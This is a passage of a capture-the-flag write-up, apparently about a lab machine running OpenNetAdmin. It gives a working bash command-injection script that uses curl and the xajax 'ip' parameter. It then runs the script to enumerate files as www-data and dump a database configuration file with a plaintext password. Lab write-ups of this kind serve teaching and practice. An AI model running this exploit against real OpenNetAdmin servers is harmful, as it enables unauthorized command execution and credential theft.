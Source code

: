     :::bash
    CMD="${1}"
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${CMD};echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/"  | sed -n -e '/BEGIN/,/END/ p'

We start enumerating the box as `www-data`.

    :::text
    sh ona_rce.sh 'whoami' 
                      <pre style="padding: 4px;font-family: monospace;">BEGIN
      www-data
      END
    sh ona_rce.sh 'ls -al'
                    <pre style="padding: 4px;font-family: monospace;">BEGIN
    total 72
    drwxrwxr-x 10 www-data www-data 4096 Jan  7 14:41 .
    drwxr-x---  7 www-data www-data 4096 Nov 21 18:23 ..
    -rw-rw-r--  1 www-data www-data 1970 Jan  3  2018 .htaccess.example
    drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 config
    -rw-rw-r--  1 www-data www-data 1949 Jan  3  2018 config_dnld.php
    -rw-rw-r--  1 www-data www-data 4160 Jan  3  2018 dcm.php
    drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 images
    drwxrwxr-x  9 www-data www-data 4096 Jan  3  2018 include
    -rw-rw-r--  1 www-data www-data 1999 Jan  3  2018 index.php
    drwxrwxr-x  5 www-data www-data 4096 Jan  3  2018 local
    -rw-rw-r--  1 www-data www-data 4526 Jan  3  2018 login.php
    -rw-rw-r--  1 www-data www-data 1106 Jan  3  2018 logout.php
    drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 modules
    drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 plugins
    drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 winc
    drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 workspace_plugins

We notice that the file are from January 2018. So we just filter on file older
that 30 days. That allow us to find a configuration file for the database
containing a password.

    :::text
    sh ona_rce.sh 'find ../../ -mtime -30 2>/dev/null | grep -Ev "^/proc"'
                    <pre style="padding: 4px;font-family: monospace;">BEGIN
    ../../
    ../../priv.save
    ../../ona/www


    sh ona_rce.sh 'cat ../../ona/www/local/config/database_settings.inc.php'
                    <pre style="padding: 4px;font-family: monospace;">BEGIN
    <?php

    $ona_contexts=array (
      'DEFAULT' =>
      array (
        'databases' =>
        array (
          0 =>
          array (
            'db_type' => 'mysqli',
            'db_host' => 'localhost',
            'db_login' => 'ona_sys',
            'db_passwd' => 'n1nj4W4rri0R!',
            'db_database' => 'ona_default',
            'db_debug' => false,
          ),
        ),
        'description' => 'Default data context',
        'context_color' => '#D3DBFF',
      ),